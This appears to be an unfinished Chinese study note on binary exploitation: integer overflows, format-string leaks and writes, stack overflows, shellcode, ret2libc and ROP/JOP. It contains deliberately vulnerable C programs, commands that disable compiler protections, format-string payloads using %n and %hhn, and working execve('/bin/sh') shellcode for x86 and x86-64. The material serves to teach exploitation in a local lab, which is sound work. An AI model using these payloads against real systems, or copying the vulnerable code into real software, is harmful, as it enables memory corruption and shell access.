



### 整数安全

#### 概述

> 计算机中整数的溢出不会改写额外的内存，所以不会直接导致任意代码执行，但如果一个整数用来计算一些敏感数值，那就有可能存在危险。主要会有两种潜在的危险，一，这个整数控制着memcpy、strncpy等函数的复制大小，这时可能存在缓冲区溢出风险；二，这个整数在一些判断中，决定着程序运行的流程。

整数异常有三种：

* 溢出：符号数存在，两正或者两负相加可能改变符号位的值，产生溢出
* 回绕：无符号数没有负数，0-1（小-大）得到最大值（正值），255+1（1byte的无符号数）得到0
* 截断：将较大宽度的数存入较小宽度，发生高位截断

#### 多发函数

* memcpy
* strncpy
* snprintf
* fgets
* vsnprintf
* 等

#### 实例

eg1：

```c
char buf[80];
void vulnerable(){
    //int len 长度从外部输入
    int len = read_int_from_network();
    char *p = read_string_from_network();
    if(len > 80){
        error("too long");
        return;
    }
    // 第三个参数是size_t，len为参数会发生类型转换，负数会被转为很大的数
    memcpy(buf, p, len);
}
```

eg2：

```c
 void vulnerable(){
     size_t len;
     char *buf;
     len = read_int_from_network();
     // 如果len为255，255+5=4
     buf = malloc(len + 5);
     // buf的大小仅为4bytes，而len巨大
     read(fd, buf, len);
 }
```

eg3：

```c
void main(int argc, char *argv[]){
    unsigned short int total;
    // 计算结果超出total的范围，发生截断，申请较小的内存
    total = strlen(argv[1]) + strlen(argv[2]) + 1;
    char *bug = (char *)malloc(total);
    // 过长的参数发生缓冲区溢出
    strcpy(buf, argv[1]);
    strcat(buf, argv[2]);
    
    //......
}
```

### 格式化字符串

#### 概述

> printf、sprintf等函数有一个固定参数，既格式化字符串，正常情况下printf("%s,%s,%d",&str1,str2,num1)格式化字符串中的转化指示符和后面的参数是一一对应的，但是实际上，当printf("%s,%s,%d",&str1,str2)的转化指示符多于后续参数时，函数不会报错，而是会继续按照格式和顺序打印栈上的数据，这就可能造成如下问题：
>
> * 访问了非法地址或受保护的地址，造成程序崩溃；
>
> * 超出参数的转化指示符造成栈数据泄露；
>
> * %s可以将四个字节的数据当作指针，读取目标地址的数据，当我们通过构造数据控制%s读取的指针时，即可造成任意地址的内存泄漏；
>
> * 利用%n进行栈内存覆盖。
>
>   
>
>   **当格式化字符串可控时**，这些风险就可能发生。

| 指示符 | 类型   | 输出 |
| ------ | ------ | ---- |
| %d     | 4B     |      |
| %u     | 4B     |      |
| %x     | 4B     |      |
| %s     | 4B ptr |      |
| %c     | 1B     |      |

| 长度 | 类型 | 输出 |
| ---- | ---- | ---- |
| hh   | 1B   |      |
| h    | 2B   |      |
| l    | 4B   |      |
| ll   | 8B   |      |


#### 多发函数

* fprintf()
* printf()
* sprintf()
* snprintf()
* dprintf()
* vfprintf() vprintf() vsprintf() vsnprintf() vdprintf()
* 等

#### 程序（32位程序）

编译程序时关闭保护机制

* NX：-z execstack / -z noexecstack (关闭 / 开启)    不让执行栈上的数据，于是JMP ESP就不能用
* Canary：-fno-stack-protector /-fstack-protector / -fstack-protector-all (关闭 / 开启 / 全开启)  栈里插入cookie信息
* PIE：-no-pie / -pie (关闭 / 开启)   地址随机化，另外打开后会有get_pc_thunk
* RELRO：-z norelro / -z lazy / -z now (关闭 / 部分开启 / 完全开启)  对GOT表具有写权限
* -fno-pic/-pic 关闭/开启位置无关代码

```shell
# -g保留调试信息,-m32编译成32位程序
gcc -m32 -z execstack -fno-stack-protector -no-pie -fno-pic -z norelro format.c -o format.out -g

# 编译成32位程序时缺少链接库
apt-get install build-essential module-assistant  
apt-get install gcc-multilib g++-multilib  
```

下面的分析以这个程序为例

```c
#include<stdio.h>
void main(){
    char format[128];
    int arg1 = 1, arg2 = 0x88888888, arg3 = -1;
    char arg4[10] = "ABCD";
    scanf("%s", format);
    printf(format,arg1,arg2,arg3,arg4);
    printf("\n");
}
```


#### 栈数据泄漏

> 攻击者构造格式化字符串时，转化指示符的数量多于后续的参数，多出的转化指示符会继续读取栈上的数据，或者直接使用类似"%num$"这样的转化指示符获得栈上指定顺序的参数

* 实例：我们输入以下参数

\> %d,%#x,%d,%s


\> %d,%#x,%d,%s,%p


​	可以看到输入五个转化指示符仍可以正常运行，且额外泄露了栈上的一个地址

\> %2$#x,%1$#x


​	可以看到输入两个转化指示符，且使用$指定参数顺序

#### 任意地址内存泄露

> 类似"%s"这样的转化指示符可以将栈上的内存单元的值当做地址，并打印地址指向内容的数据，这就使得我们可以读取给定地址的数据，然后由于我们输入的格式化字符串参数在函数内部也会被使用（TODO：字符串时通过指针引用的，为什么这里字符串本身也会进栈？），也就是说在调用printf参数入栈后，后续格式化字符串参数还会有至少一次机会出现在栈上，这就使得我们可以通过"%num$"在栈上访问到格式化字符串，而这个格式化字符串又是我们可控的，我们就可以写入任意地址，整个攻击链就形成了，我们就可以读取任意地址的内容。


我们将断点设置在程序的 printf(format,arg1,arg2,arg3,arg4),然后单步步入，查看栈上的数据，这时printf的参数刚刚完成入栈


\> AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p


我们可以看到“AAAA”即0x41414141被在第十三个参数的位置被打印出来了，于是我们可以将“AAAA”替换为一个地址，然后使用%13$s访问这个地址

\> python2 -c "print('\xaa\xcf\xff\xff'+'.%13$s.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p')" > text

\> r < ./text

这里要注意两个地方，一，我们要将上次输入的‘AAAA’替换为地址，当这个地址的某个字节大于128或者为某个空白字符时，我们是无法输入的，所以这里使用python将字节写入文件，再将文件内容重定向到可执行文件来运行；二，这里需要使用python2，否则会因为编码问题产生意料之外的结果。


这里0xffffcfaa是字符串“ABCD”的地址，我们可以看到结果成功打印出“ABCD”

#### 任意地址内存覆盖

> 这里主要是利用到了，"%n"这个转换指示符，printf("hello%s%n",str,&n)%n会将当前已经成功写入流或者缓冲区的字符个数写入指定参数中，如果str[]=“hello"，则这里的n为10。刚刚%n有与其对应的参数，而当%n为多余的转化指示符时，即可以栈上的内存单元的值为地址写入数据，由任意内存地址泄露我们已经知道了如何在栈上写入任意地址，也知道了如何访问该地址，现在问题是如何写入我们想要的值，%n表示着已经成功写入流或者缓冲区的字符个数，这个数字看似可以通过构造格式化字符串的长度来控制，但是实际上不现实，因为如果我们想写\xffffffff，那意味着我们要构造长度为255\*255\*255\*255长度的字符串，实际上，我们可以**通过使用宽度或者精度转换规范来实现写入任意数据**，例如printf("hello%50d%n",i,&n)%n写入的大小为5+50

\> python2 -c "print('\x38\xd0\xff\xff%08x%08x%012d%13$n')" > text

\x38\xd0\xff\xff是程序组arg2的地址。我们在程序的scanf和第一个printf处各下一个断点。

\> r < ./text


这个时候printf还没有执行，可以看到arg2的值还没有变化，继续运行


从汇编代码中看到printf已经运行完毕，再看此时的arg2，已经发生了变化


> 上述的例子中，最小值只能是4，因为光地址就占去四个字节，但是我们可以通过移动%n的位置来改变它的值，printf("AA%15$nA","地址")%n写入的值就为2，注意到这里的n前的数字变为了15，这是因为地址的相对位置往后移动了；另外上面说过，我们要写入过大的值可以通过更改%n的精度和宽度转换规范实现，但是这样占用的内存还是太大了（TODO：%15d在内存中到底占用多少内存？），而且依赖%n的前面有其他转化指示符。实际上，我们还有别的办法写入大值，%hhn %hn %n %ln %lln分别表示写入单字节 双字节 4字节 8字节 16字节，具体的内容我们用下面的例子说明。这样的方法大大减少了字符串长度，这也意味着我们可以跳出%n四字节的限制，写任意字节的字符串或者其他内容。

我们这里尝试使用四个%hhn对arg2分四个字节写入0x12345678，用四个%hhn就需要四个地址，先运行程序输入AAAABBBBCCCCDDDD来确定四个地址的相对位置。


此时调用printf函数，参数入栈


可以看到’AAAABBBBCCCCDDDD‘在栈上的相对位置为13 14 15 16

\> python2 -c "print('\x38\xd0\xff\xff'+'\x39\xd0\xff\xff'+'\x3a\xd0\xff\xff'+'\x3b\xd0\xff\xff'+'\x3c\xd0\xff\xff'+'%104c%13$hhn'+'%222c%14$hhn'+'%222c%15$hhn'+'222c%16$hhn')" > text

这里解释一下，%104c加上之前写入的16字节为0x78，后面再写入%222c，结果为0x0156，但由于这里%hhn限定写入一个字节，发生截断，取低位0x56


可以看到arg2的值被更改了。

#### x86-64需要注意

> 在x86-64体系中，多数调用惯例是通过寄存器传递参数。在linux上，从左往右前六个参数由RDI、RSI、RDX、RCX、R8和R9进行传递；windows中，从左往右前四个参数则由RCX、RDX、R8和R9传递

### 栈溢出

#### 概述

> c语言对数组引用不做任何边界检查，这是导致缓冲区溢出的根本原因。由于栈上保存着局部变量和一些状态信息（寄存器地址、返回地址等），一旦发生溢出，攻击者可以通过覆写返回地址来执行任意代码，利用方法包括shellcode注入、ret2libc、ROP等。同事，随着技术的发展，也出现了许多手段防御缓冲区溢出。

#### 函数调用栈

```c
# 实验程序
# gcc  -m32 -z execstack -fno-stack-protector -no-pie -z norelro -fno-pic func.c -o func.out -g

int func(int arg1,int arg2,int arg3,int arg4,int arg5,int arg6,int arg7,int arg8){
    int locl=arg1+1;
    int loc8=arg8+8;
    return locl+loc8;
}
int main(){
    return func(11,22,33,44,55,66,77,88);
}
```


* 整个程序的运行过程中栈的变化，每次进栈，先esp-=4；**栈顶指向的内存不为空**
  1. ebp的值进栈，main函数着对栈的使用开始
  2. mov ebp，esp，确定main函数栈的基址，**此时栈顶和栈底均指向原esp值**
  3. 八个参数从右往左按顺序进栈
  4. 跳转到func地址前，push eip，保存返回地址
  5. ebp值进栈，func函数对栈的使用开始
  6. mov ebp，esp，确定func函数栈的基址
  7. esp-=n，n是开辟的空间，供函数内局部变量使用（这里的局部变量地址空间增长是由低到高，所以这里如果有溢出，可以将刚刚进栈的高地址的原eip覆盖）
  8. 函数执行完毕后准备返回，需要将func使用的栈恢复，即恢复到5之前（leave）
     1. mov esp，ebp 栈顶恢复到栈底
     2. pop ebp 原栈底出站
  9. 原eip出栈，恢复到4之前（ret）
* x86-64的略微不同
  * 前六个参数通过寄存器传递
  * 没有类似sub rsp,0x10的操作，rsp的值等于rbp。这是一项编译优化，rsp以下128字节的空间被称为red zone，是一块保留内存，可以用于函数保存临时数据。


#### 危险函数

* scanf、gets等读取输入函数
* strcpy、strcat、sprintf等字符串拷贝函数

#### 如何更改IP寄存器（TODO）

溢出攻击的核心是通过溢出劫持控制流，从更本质上来说，是通过溢出更改IP寄存器的值，将其指向恶意代码。但是现代CPU并不支持直接修改IP寄存器，仅有少数指令可以更改IP寄存器的值，例如`call ret jmp`等

#### shellcode注入

* 什么情况下可以注入shellcode TODO
* shellcode的编写 TODO
  * 基本思想 网站 工具 提取 TODO
  * 形变shellcode TODO

> 栈溢出的主要目的是覆写函数的返回地址，从而劫持控制流，在没有NX保护机制的情况下，我们可以直接将shellcode注入栈上并执行，大致方法是先覆盖正常的返回地址，将地址指向我们注入的shellcode上。此外bss、data、heap等段均可进行shellcode注入。但需要了解的是，如今的程序大多数在编译时采用了NX等保护机制，将栈或其他区域标记为不可执行，shellcode注入在这种情况下无法使用。
>
> 大多数shellcode都是专用的，与特定的处理器、操作系统、目标程序以及要实现的功能紧密相关，这里不讨论注入，仅仅介绍一段实现在 data段执行shell的shellcode。网站shell-storm有许多shellcode的学习案例。

##### 32位shellcode执行不成功

```c
// 示例代码
# include<stdio.h>
# include<string.h>

// shellcode的内容是下面汇编的二进制代码，32位 x86
char shellcode[]="\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";
int main(){
    printf("Shellcode length: %d bytes\n", strlen(shellcode));
    
    
    // int (*funcPtr)(int) = foo; (*funcPtr)(5);
    // typedef int (*funcptr)(int);funcptr p=foo;p(5)
    (*(void(*)())shellcode)();
    return 0;
}
```

```nasm
global _start
section .text

_start:
; int execve(const char *filename, char *const argv[], char *const envp[])
xor ecx, ecx    ; ecx = NULL
mul ecx         ; eax and edx = NULL
mov al, 11      ; execve syscall
push ecx        ; string NULL
push 0x68732f2f ; "//sh"
push 0x6e69622f ; "/bin"
mov ebx, esp    ; pointer to "/bin/sh\0" string
int 0x80        ; bingo
```

```shell
# 将汇编文件.asm编译为.o文件
nasm -f elf32 shellcode.asm

# 将.o文件链接为可执行文件
ld -m elf_i386 shellcode.o -o shellcode.out
```

> 这里参考的书上的例子，但是实际上我自己实验时出现报错，Segmentation fault，这是因为我们写入shell的部分为data段，在我实验时，data段没有给执行权限。下面的图片可以看.data的地址范围为0804b298~0804b2b6，这一段没有执行权限。


##### 分析64位shellcode为什么不能执行成功

```C
// x86-64
#include <stdio.h>
#include <string.h>

// 64位 execve("/bin/sh", NULL, NULL) 的 shellcode
unsigned char shellcode[] =
    "\x48\x31\xd2"                                  // xor    rdx, rdx
    "\x48\x31\xf6"                                  // xor    rsi, rsi
    "\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00"      // movabs rdi, 0x0068732f6e69622f
    "\x48\xc1\xef\x08"                              // shr    rdi, 8
    "\x57"                                          // push   rdi
    "\x48\x89\xe7"                                  // mov    rdi, rsp
    "\x48\x31\xc0"                                  // xor    rax, rax
    "\xb0\x3b"                                      // mov    al, 59
    "\x0f\x05";                                     // syscall

int main() {
    printf("Shellcode length: %ld bytes\n", strlen((char *)shellcode));

    // 定义函数指针并调用 shellcode
    void (*run)() = (void(*)())shellcode;
    run();

    return 0;
}

```

```shell
# 关闭NX和Canary
gcc test64.c -o test64 -z execstack -fno-stack-protector
```

编译后，发现仍然无法正常执行，检查是否存在权限问题

```shell
# 搜索shellcode
search-pattern 0xf63148d23148
```



```shell
# 查看shellcode是否有可执行权限
vmmap
```



确定没有相应内存地址没有执行权限，仅有读写权限

```shell
# 从elf头中也可以读取出部分信息
elf
```



看出.data在进程中的偏移地址（addr）为0x4000，而off为elf中的偏移地址。.data在内存中的地址范围为`0x0000555555554000`+`0x4000`为`0x00007ffff7de8000`到`0x00007ffff7de8040`确实符合我们搜索的结果

##### 调整后的64位shellcode

* 原来shellcode在.data段，现在更改代码后，其在.text具有执行权限，先不管其为什么在.text段

```c
#include <stdio.h>
#include <string.h>

int main() {
    // shellcode 放在栈上（局部变量）
    // 这里更原来相比，删掉了shr    rdi, 8
    unsigned char shellcode[] =
        "\x48\x31\xd2"                                  // xor    rdx, rdx
        "\x48\x31\xf6"                                  // xor    rsi, rsi
        "\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00"      // movabs rdi, 0x0068732f6e69622f
        "\x57"                                          // push   rdi
        "\x48\x89\xe7"                                  // mov    rdi, rsp
        "\x48\x31\xc0"                                  // xor    rax, rax
        "\xb0\x3b"                                      // mov    al, 59
        "\x0f\x05";                                     // syscall

    printf("Shellcode length: %ld bytes\n", strlen((char *)shellcode));

    // 执行 shellcode
    ((void(*)())shellcode)();

    return 0;
}
```

#### ret2libc

> 有时我们可以注入shellcode的位置并不能执行，例如目标程序开启了NX保护或者注入的段没有执行权限，这时可以采用ret2libc来调用libc.so中的system("/bin/sh")。ret2libc概括来说，就是将栈上正常的返回地址覆盖为libc.so中的system函数，然后再构造参数/bin/sh。

```C
// example
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> 
char sh[]="/bbbbbbbbbbbbbbin/sh"; 

int init_func(){
	setvbuf(stdin,0,2,0); 
	setvbuf(stdout,0,2,0); 
	setvbuf(stderr,0,2,0); 
	return 0;
}

int func(char *cmd){ 
	system(cmd); 
	return 0; 
}

int main(){ 
	init_func(); 
	char a[32] ={}; 
	puts("input: ");
	gets(a);
	printf(a); 
	return 0; 
}

```

```shell
# 关闭PIE NX STACK CANARY
gcc -no-pie -fno-pie -fno-stack-protector -z execstack program.c -o program
```


##### ret到注入的shellcode

###### 防御

##### ret到指定函数

###### 防御

##### ret2libc

###### 防御

#### ROP

> ret2libc与shellcode注入相比，使用起来不太灵活，因为ret2libc只能利用text段和libc中已有的函数，而shellcode注入可以达成任意代码执行。但shellcode现如今受到越来越多的限制，这是因为我们能注入代码的地方一旦被标记为不可执行，shellcod就失效了。
>
> ROP（return-oriented programming）返回导向编程，无需我们注入shellcode就可达成任意代码执行的效果。它的主要思想是利用源程序中已有的代码片段，利用ret指令将这些代码片段连接起来，完成任意代码执行。

```nasm
; exit(0) shellcode
xor eax, eax
xor ebx, ebx
inc eax
int 0x80
```

要通过ROP执行上述代码，我们先在程序中找到如下代码片段（gadgets）

```nasm
; exit(0) shellcode
xor eax, eax ;片段一
ret

xor ebx, ebx ;片段二
ret

inc eax ;片段三
ret

int 0x80 ;片段四
```

然后通过栈溢出修改栈上的返回地址，使多个片段通过ret连接起来。

> 为了搜索gadgets，已经有论文提出了相关的搜索算法，这里不过多介绍，目前也有许多现成、成熟的gedgets搜索工具，例如ROPgadget、Ropper等。
>
> 在gadgets足够多的程序中，其具有的计算能力是图灵完备的，也就是说可以借助其实现我们想要的各种操作：
>
> 1. 保存栈数据到寄存器
> 2. 保存内存数据到寄存器
> 3. 保存寄存器数据到内存
> 4. 算数和逻辑运算
> 5. 系统调用
> 6. 影响栈帧

#### ROP变种——JOP

> ROP需要频繁的使用ret指令，于是许多针对这个特性的防御方式也随之出现，例如：检测程序是否有频繁的ret指令，作为程序告警的依据；维护一个影子栈，这个栈作为正常栈的备份，每次ret时对比检查是正常栈是否被修改了值；在编译器层面重写二进制文件，消除ret指令。
>
> ret指令的实质是pop ip，这条指令的主要作用是通过将栈中的数据出到ip寄存器，改变程序执行流，在同时也改变了栈和一些寄存器（例如sp）的状态。知道了ret指令的实质作用，即使不能使用ret指令，我们也可以借助其他指令达成相同的作用。
>
> x86和ARM中存在一些指令序列，能够代替ret的工作，它们首先更新全局状态（如栈指针），然后根据更新后的状态加载下一条指令地址，并跳转执行。这样的指令序列被称为update-load-branch，使用它们来代替ret指令。但update-load-branch一般比ret指令稀少，通常作为跳板（trampoline）使用，当一个gadget执行结束后，跳转到trampoline，trampoline更新程序状态后把控制权交给下一个gadget，由此行程ROP链。由于这些gadgets指令都以jmp纪委，我们就称之为JOP。

```nasm
; 这里的副作用是覆盖了eax，当程序后续执行依赖eax时就会出问题，但这里的eax可以替换为任意一个通用寄存器
pop eax
jmp eax
```

上面谈到的是直接跳转，另外还有一种间接跳转的方式，先跳转到一个sequence catalog，这里暂时不介绍，到后续接触到时再介绍。

#### Blind ROP

> Blind ROP能在无法获得二进制程序的情况下，给予远程服务崩溃与否，进行ROP攻击获得shell，可用于开启ASLR、NX和canaries的64位Linux。利用Blind ROP的条件有两点，第一，目标程序存在稳定可触发的栈溢出漏洞；二，目标进程在崩溃后会立即重启，并且重启后的进程内存不会重新随机化，这样目标机器开启了ASLR也没有影响，如果同时启用了PIE，则服务器必须是一个fork服务器，并且重启时不使用execve。
>
> BROP的主要攻击流程这里不多说，后续展示实例时再讲解。

#### SROP

#### stack pivoting

#### ret2dl-resolve